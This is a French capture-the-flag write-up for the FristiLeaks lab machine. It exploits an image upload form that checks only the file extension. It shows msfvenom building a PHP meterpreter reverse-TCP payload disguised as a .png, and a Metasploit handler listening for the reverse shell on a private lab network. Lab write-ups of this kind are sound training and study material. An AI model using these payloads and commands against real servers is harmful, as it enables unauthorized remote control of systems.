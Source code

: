 Le portail d'administration de FristiLeaks n'est consisté que d'un simple formulaire d'upload de fichiers images. Or cette fonctionnalité n'est
pas filtrée, car après plusieurs tests, on constate que seule l'extension du fichier est vérifiée. Il est ainsi possible de transférer
[un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des
commandes arbitraires et d'en prendre le contrôle.

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur FristiLeaks (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=12345 -o shell.php.png
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php.png
```

![Affichage de l'image REVERSESHELL-fristi.png](images/REVERSESHELL-fristi.png)

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole
                                                  
--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.101:12345
```

